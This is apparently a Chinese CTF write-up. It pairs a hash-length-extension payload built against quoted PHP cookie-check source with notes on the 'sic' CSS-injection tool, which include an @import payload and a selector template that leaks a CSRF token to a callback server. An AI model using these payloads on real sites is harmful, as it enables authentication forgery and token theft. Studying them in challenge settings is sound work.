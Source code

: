 ```php
        else {
            die ("Go out! Hacker!");
        }
    }
    else {
        die ("LEAVE! You're not one of us!");
    }
}

setcookie("sample-hash", md5($secret_key . urldecode("D0g3" . "D0g3")), time() + (60 * 60 * 24 * 7));

if (empty($_COOKIE["source"])) {
    setcookie("source", 0, time() + (60 * 60 * 24 * 7));
}
```

有一个要注意的点

python提交数据的时候

```py
data={"username":'D0g3',"password":b"D0g3\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00abc"}
```

要用字节符上传防止转义

### sic

标准用法:`./sic -p 3000 --ph "http://localhost:3000" --ch "http://localhost:3001" -t my_template_file`

有效负载:`<style>@import url(http://localhost:3000/staging?len=32);</style>`

示例模版:`input[name=csrf][value^={{:token:}}] { background: url({{:callback:}}); }`

没用成功

